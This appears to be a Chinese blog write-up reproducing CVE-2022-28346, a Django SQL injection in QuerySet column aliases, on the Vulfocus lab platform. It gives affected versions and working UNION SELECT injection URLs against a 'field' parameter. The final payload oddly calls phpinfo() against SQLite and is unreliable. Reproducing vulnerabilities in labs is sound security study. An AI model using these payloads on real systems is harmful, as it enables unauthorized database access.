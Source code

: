 # 原创
：  【漏洞复现-django-SQL注入】vulfocus/django-cve_2022_28346

# 【漏洞复现-django-SQL注入】vulfocus/django-cve_2022_28346

**目录**

[一、靶场环境](#%E4%B8%80%E3%80%81%E9%9D%B6%E5%9C%BA%E7%8E%AF%E5%A2%83)

[1.1、平台：](#1.1%E3%80%81%E5%B9%B3%E5%8F%B0%EF%BC%9A)

[1.2、知识:](#1.2%E3%80%81%E6%BC%8F%E6%B4%9E%E7%89%88%E6%9C%AC%3A)

[1.3、描述：](#1.3%E3%80%81%E6%8F%8F%E8%BF%B0%EF%BC%9A)

[二、漏洞验证](#%E4%BA%8C%E3%80%81%E6%BC%8F%E6%B4%9E%E9%AA%8C%E8%AF%81)

[2.1、分析：](#2.1%E3%80%81%E5%88%86%E6%9E%90%EF%BC%9A)

[2.4、解题：](#2.4%E3%80%81%E8%A7%A3%E9%A2%98%EF%BC%9A)

---


## 一、靶场环境

> 
<h3>1.1、平台：</h3>
[Vulfocus 漏洞威胁分析平台](https://vulfocus.cn/)
123.58.224.8:36682

 
 （我之前实战中遇见过很多这种草率的页面，都以为放弃就没管了，害）<img alt="" height="317" src="https://img-blog.csdnimg.cn/a0348aa3295a467fa8c667963666cfa5.png" width="1012"/>
 


> 
<h3>1.2、知识:</h3>
1、报错回显参数（黑盒有点难遇见）
得找那种以前的老网站看看，关注回显的参数等信息
2、代码审计（白盒）
寻找危险函数，及用户可控的变量地方，跟踪变量，查看过滤机制，以及是否被带入SQL语句中执行



> 
<h3>1.3、描述：</h3>
1、Django在2.2.28 版本之前的2.2版本、3.2.13版本之前的3.2版本、4.0.4版本之前的4.0版本使用QuerySet.annotate() aggregate() extra()数据
2、QuerySet.annotate()、aggregate() 和 extra() 方法会通过精心制作的字典（带有字典扩展）作为传递的 **kwargs 在列别名中进行 SQL 注入。


---


---


## 二、漏洞验证

> 
<h3>2.1、分析：</h3>
查看报错页面，是否存在信息泄露
demo/

访问demo接口，分析是否有其他信息泄露，或能传参
报错信息提示了一个参数name

 访问：http://ip:port/demo?field=demo.name<br/><img alt="" height="301" src="https://img-blog.csdnimg.cn/2f3415774b6549b8a5d949d318d3e585.png" width="1023"/>
 
 POC：
http://ip:port/demo?field=demo.name" FROM "demo_user" union SELECT "1",sqlite_version(),"3" --

 




> 
<h3>2.4、解题：</h3>

http://123.58.224.8:36682/demo/?field=demo.name" FROM "demo_user" union SELECT "1",phpinfo(),"3" --

 

